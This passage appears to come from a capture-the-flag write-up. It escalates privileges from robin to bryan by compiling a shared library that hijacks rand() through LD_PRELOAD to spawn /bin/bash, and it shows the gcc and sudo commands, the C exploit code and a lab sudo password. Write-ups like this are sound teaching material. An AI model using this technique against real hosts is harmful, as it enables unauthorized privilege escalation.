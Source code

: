     User robin may run the following commands on this host:
        (bryan) /usr/local/bin/dice

Let us put all the pieces together. We can run the program as bryan, we now that
the program load the `LD_PRELOAD` environement variable.

A simple google search lead us to
[this article](http://jvns.ca/blog/2014/11/27/ld-preload-is-super-fun-and-easy/)
and
[this one](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).
So now we just need to write a shared library to replace `rand()` by `/bin/bash`
run the program as bryan and we would get a shell as bryan.

When testing the trick I ran into the following error:

    ::text
    [robin@fII ~]$ gcc -shared -fPIC unrandom.c -o unrandom.so
    gcc: error trying to exec 'cc1': execvp: No such file or directory

We just need to add some variable to our user's PATH:

    ::text
    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/game

From there we we can compile the shared library and execute the dice program
with it:

    ::text
    [robin@fII ~]$ gcc -shared -fPIC unrandom.c -o unrandom.so
    gcc -shared -fPIC unrandom.c -o unrandom.so
    [robin@fII ~]$ LD_PRELOAD=$PWD/unrandom.so /usr/local/bin/dice
    LD_PRELOAD=$PWD/unrandom.so /usr/local/bin/dice
    42 baby

We need to copy the `.so` to a location where bryan could read it like `/tmp/`.
Now we can run the program as bryan and load the shared library:

    :::text
    sudo -u bryan LD_PRELOAD=/tmp/unrandom.so /usr/local/bin/dice
    [sudo] password for robin: 40373df4b7a1f413af61cf7fd06d03a565a51898

    42 baby!

We need to modify the code to get a shell:

    :::c
    #include <stdlib.h>

    char *getenv(const char *name){
    return 0;
    }

    int rand(){
    system("/bin/bash");
    return 42; //the most random number in the universe
    }
